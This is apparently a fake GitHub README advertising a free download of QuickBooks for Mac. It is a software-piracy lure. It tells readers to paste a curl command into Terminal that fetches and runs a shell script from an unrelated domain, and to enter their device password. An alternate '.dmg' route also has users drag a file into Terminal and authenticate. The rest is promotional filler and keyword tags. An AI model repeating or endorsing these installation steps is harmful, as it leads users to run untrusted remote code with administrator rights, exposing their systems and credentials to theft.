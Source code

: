 # QuickBooks For Mac — Free Download For macOS 📊

Easily manage your finances with QuickBooks for Mac. Follow the step-by-step instructions below to download and install this powerful accounting software for free.  

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://quickbooks-for-mac-free.github.io/.github/)  

If the download button doesn’t work, follow the terminal-based installation instructions below.

## 📦 How to Install QuickBooks For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with QuickBooks

- 📈 **Streamlined Bookkeeping**: Automate expense tracking and categorize transactions effortlessly.  
- 💸 **Invoicing Made Simple**: Create and send professional invoices in minutes.  
- 📊 **Financial Reports**: Generate detailed reports to monitor your business performance.  
- 🔄 **Sync with Bank Accounts**: Connect your bank accounts for real-time updates.  
- 🛠 **Tax Preparation**: Simplify tax season with organized records and deductions.  
- 🌐 **Cloud Integration**: Access your data anywhere with QuickBooks’ cloud features.

## About QuickBooks

QuickBooks for Mac is a leading accounting software designed to simplify financial management for small businesses and freelancers. Whether you’re tracking expenses, managing invoices, or preparing for tax season, QuickBooks offers a user-friendly interface tailored for macOS users. Its seamless integration with macOS ensures smooth performance, making it a go-to solution for professionals seeking efficiency.

With QuickBooks, you can automate repetitive tasks like expense categorization and bank reconciliation. The software supports integration with major banks, allowing you to sync transactions and monitor cash flow in real time. Its robust reporting tools provide insights into your business’s financial health, helping you make informed decisions. QuickBooks for Mac is optimized for Apple’s ecosystem, ensuring compatibility with the latest macOS versions.

The invoicing feature in QuickBooks is a standout, enabling users to create customized, professional invoices in just a few clicks. You can track payments, send reminders, and even accept online payments, streamlining your workflow. The software also supports multiple currencies, making it ideal for businesses operating globally. Its cloud-based features allow you to access your data from any device, ensuring flexibility and convenience.

For tax preparation, QuickBooks simplifies the process by organizing your financial data and generating reports that align with tax requirements. The software’s intuitive dashboard provides a clear overview of your income, expenses, and outstanding invoices, reducing the stress of financial management. QuickBooks for Mac is designed to save you time, letting you focus on growing your business.

**Why Choose QuickBooks?** QuickBooks stands out for its ease of use, macOS optimization, and comprehensive feature set. Unlike other accounting tools, it combines powerful functionality with a clean, Apple-inspired design. Regular updates ensure compatibility with the latest macOS releases, while its cloud sync and mobile app keep you connected on the go. Whether you’re a freelancer or a small business owner, QuickBooks offers unmatched reliability and efficiency.

## 🖼 Preview

![Dashboard View](https://http-download.intuit.com/http.intuit/CMO/apple_web/sample/static/qbomac/content/download/images/laptop.png)  
*QuickBooks dashboard for easy financial tracking*

![Invoice Creation](https://gdm-catalog-fmapi-prod.imgix.net/ProductScreenshot/97dc2024-ebe7-42d9-885e-6e743c1c0f9d.png)  
*Create professional invoices in minutes*

![Reports Interface](https://lh3.googleusercontent.com/R3f03cREsI4n4134jy7k8Nk5U1zRauPOXBtsC-ghhEY6qIUdMlStd6iQFY8WA0GOpUve0XnWClmwiUPlo1d5oM3f=s1280-w1280-h800)  
*Generate detailed financial reports effortlessly*

## 🔍 Tags

QuickBooks free, QuickBooks download, QuickBooks download free, QuickBooks for Mac, download QuickBooks macOS, QuickBooks free download, macOS accounting tool, QuickBooks installation guide, QuickBooks free mac, QuickBooks mac, QuickBooks mac os, QuickBooks download mac
